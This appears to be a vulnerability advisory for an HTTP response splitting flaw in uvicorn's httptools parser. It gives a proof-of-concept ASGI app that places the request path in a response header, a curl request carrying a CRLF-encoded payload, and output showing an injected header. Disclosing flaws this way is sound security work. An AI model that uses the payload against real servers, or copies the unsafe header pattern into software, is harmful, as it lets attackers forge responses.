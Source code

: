# Overview
uvicorn is a lightning-fast ASGI server.
Affected versions of this package are vulnerable to HTTP Response Splitting. Uvicorn's implementation of the HTTP protocol for the httptools parser is vulnerable to HTTP response splitting. CRLF sequences are not escaped in the value of HTTP headers. Attackers can exploit this to add arbitrary headers to HTTP responses, or even return an arbitrary response body, whenever crafted input is used to construct HTTP headers.

## Proof of Concept
async def app(scope, receive, send):
    assert scope['type'] == 'http'
    await send({
        'type': 'http.response.start',
        'status': 200,
        'headers': [
            [b'Content-Type', b'text/plain'],
            [b'Referer', scope['path'].encode()],
        ]
    })  
    await send({
        'type': 'http.response.body',
        'body': b'Hello, world!',
    })

uvicorn poc-3:app --port 9999 --http httptools


To exploit this vulnerability, make a GET request with a crafted URL path like so:


curl -v 'http://localhost:9999/foo%0d%0abar:%20baz'

Uvicorn will return an additional HTTP header "bar" with the value "baz":

* Trying 127.0.0.1...
* Connected to localhost (127.0.0.1) port 9999 (#0)
> GET /foo%0d%0abar:%20baz HTTP/1.1
> Host: localhost:9999
> User-Agent: curl/7.58.0
> Accept: */*
>

< HTTP/1.1 200 OK
< date: Sun, 26 Apr 2020 22:38:18 GMT
< server: uvicorn
< content-type: text/plain
< referer: /foo
< bar: baz
< transfer-encoding: chunked
<